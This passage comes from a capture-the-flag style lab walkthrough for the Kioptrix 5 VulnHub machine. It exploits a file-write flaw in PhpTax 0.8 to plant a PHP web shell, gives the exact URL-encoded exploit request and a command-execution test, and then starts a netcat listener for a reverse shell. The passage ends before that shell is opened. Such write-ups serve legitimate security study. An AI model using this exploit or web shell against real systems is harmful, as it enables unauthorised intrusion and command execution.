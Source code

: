 The website is running a tax filing application called `phptax`. This application is written in PHP.

![[website2-7.png|540]]

I searched online for `phptax` exploits. 2 RCE exploits were available for the application. The exploit that I used first did not work.

[PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution](https://www.exploit-db.com/exploits/25849)

The above script creates a file on the target that can then be used to execute arbitrary commands. I performed the steps shown in the script manually. The important lines from the code have been highlighted in the image below.

![[articles/images/vulnhub-kioptrix-lvl5/exploit-1.png|500]]

I appended the string that is shown on the 2nd line to the end of the URL for the `phptax` site. The string contains URL-encoded data. `CyberChef` can be used to view the decoded string.

[CyberChef - The Cyber Swiss Army Knife](https://0x1.gitlab.io/code/CyberChef/)

![[articles/images/vulnhub-kioptrix-lvl5/exploit-4.png|640]]

The URL creates a file called `rce.php` on the target. The file will contain the text `<?php passthru($_GET[cmd]);?>`. The `passthru()` function makes it possible to execute system commands using PHP.

[PHP: passthru - Manual](https://www.php.net/manual/en/function.passthru.php)

```
http://10.6.6.15:8080/phptax/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
```

When the URL is used there will be no change on the webpage.

![[articles/images/vulnhub-kioptrix-lvl5/exploit-2.png|640]]

To test if the `rce.php` file is created, in a new tab I ran the following:

```
http://10.6.6.15:8080/phptax/data/rce.php?cmd=id
```

![[articles/images/vulnhub-kioptrix-lvl5/exploit-3.png|460]]

If you get the result of the `id` command the file was created successfully.

### Remote Shell

Now that I could execute commands on the target the new step was to set up a reverse shell to explore and navigate the system.

Using `netcat` I setup a listener on port 9000

```bash
netcat -nvlp 9000
```
